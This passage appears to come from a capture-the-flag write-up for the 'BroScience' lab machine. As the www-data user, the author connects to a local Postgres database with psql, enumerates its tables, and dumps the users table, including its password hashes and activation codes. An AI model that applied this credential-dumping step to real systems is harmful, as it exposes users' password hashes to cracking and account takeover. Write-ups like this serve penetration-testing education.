 

It's Postgres, so I'll use `psql` to connect, entering the password when
prompted:



    www-data@broscience:/var/www.md/includes$ psql -U dbuser -d broscience -h localhost
    Password for user dbuser: 
    psql (13.9 (Debian 13.9-0+deb11u1))
    SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
    Type "help" for help.

    broscience=>



`broscience` is the only interesting accessible database:



    broscience=> \list
                                      List of databases
        Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
    ------------+----------+----------+-------------+-------------+-----------------------
     broscience | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
     postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
     template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
                |          |          |             |             | postgres=CTc/postgres
     template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
                |          |          |             |             | postgres=CTc/postgres
    (4 rows)



It has three tables:



    broscience=> \dt
               List of relations
     Schema |   Name    | Type  |  Owner   
    --------+-----------+-------+----------
     public | comments  | table | postgres
     public | exercises | table | postgres
     public | users     | table | postgres
    (3 rows)



The `users` table has five users besides the account I created:



    broscience=> select * from users;
     id |   username    |             password             |            email             |         activation_code          | is_activated | is_admin |         date_created          
    ----+---------------+----------------------------------+------------------------------+----------------------------------+--------------+----------+-------------------------------
      1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf | t            | t        | 2019-03-07 02:02:22.226763-05
      2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 | t            | f        | 2019-05-07 03:34:44.127644-04
      3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 | t            | f        | 2020-10-01 04:12:34.732872-04
      4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 | t            | f        | 2021-09-21 11:45:53.118482-04
      5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm | t            | f        | 2021-08-13 10:34:36.226763-04
      6 | 0xdf          | 79275232b2c9c937f145d7cc13d9339b | 0xdf@broscience.htb          | nH8VDTNVuZpI2UPif9QdCsgXzCLJrbfY | t            | f        | 2023-03-30 20:13:51.584023-04
    (6 rows)
